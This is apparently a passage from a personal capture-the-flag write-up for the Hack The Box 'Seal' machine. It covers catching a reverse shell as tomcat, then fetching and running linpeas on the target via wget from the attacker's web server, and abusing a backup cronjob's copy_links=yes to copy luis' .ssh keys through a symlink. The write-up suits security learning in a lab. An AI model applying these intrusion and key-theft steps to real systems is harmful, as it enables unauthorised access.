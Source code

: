 Then, we forward the request and look if our listener caught the connection:

<div class="img_container">
![revsh]({{https://jsom1.github.io/}}/_images/htb_seal_revsh.png)
</div>

It did, and we're in as *tomcat*! This user very likely has limited privileges... We can still access luis' desktop, but we get a *permission denied* error when we try to *cat* the user flag. That's a shame, and it's time for privesc!

## 3. Privilege escalation
{:style="color:DarkRed; font-size: 170%;"}

After looking around manually, I uploaded *linpeas* on the target. To do so, we start a web server on our machine (in the same directory where linpeas is):

````
sudo python3 -m http.server 80
`````

and we download the file from our limited user shell:

````
wget http://10.10.14.4/linpeas.sh
`````

Finally, we launch the script (it didn't work at first because I think I wasn't in the good directory. It worked after changing to *tmp*):

````
./linpeas.sh
````

As usual, the output is huge but the interesting lines are the following:

<div class="img_container">
![linpeas]({{https://jsom1.github.io/}}/_images/htb_seal_lp.png)
</div>

A *run.yml* file is mentionned. It's not on the image above, but this file is also executed in a cronjob. Let's look at that latter:

````
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
``````
We see 3 tasks: one to copy files, one to do backups, and the last one to clean. The one that copies files take them from */var/lib/tomcat9/webapp/ROOT/admin/dashboard* and copies them to */opt/backups/files*. I once again had to look at the forums for a hint. What should stand out here is **copy_links=yes**, which means that symbolic links are allowed. I vaguely know what it is, so let's look for more information: *A symbolic link, also known as a symlink or soft link, is a special type of file that points to another file or directory.*. Apparently, we can create a symbolic link to pull luis' .ssh directory.
